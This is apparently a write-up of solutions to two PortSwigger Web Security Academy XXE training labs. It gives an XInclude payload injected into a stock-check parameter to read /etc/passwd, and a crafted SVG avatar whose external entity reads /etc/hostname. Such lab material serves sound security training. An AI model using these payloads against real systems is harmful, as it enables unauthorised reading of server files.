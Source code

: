 ## Exploiting XInclude to retrieve files
Reference: https://portswigger.net/web-security/xxe/lab-xinclude-attack


### Solution
1. Visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.
2. Set the value of the ``productId`` parameter to:
```
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```

## Exploiting XXE via image file upload
Reference: https://portswigger.net/web-security/xxe/lab-xxe-via-file-upload


### Solution 
1. Create a local SVG image with the following content:
```xml
<?xml version="1.0" standalone="yes"?>
    <!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
    <svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
        <text font-size="16" x="0" y="16">&xxe;</text>
    </svg>
```
2. Post a comment on a blog post, and upload this image as an avatar.
3. When you view your comment, you should see the contents of the ``/etc/hostname`` file in your image. Use the "Submit solution" button to submit the value of the server hostname.

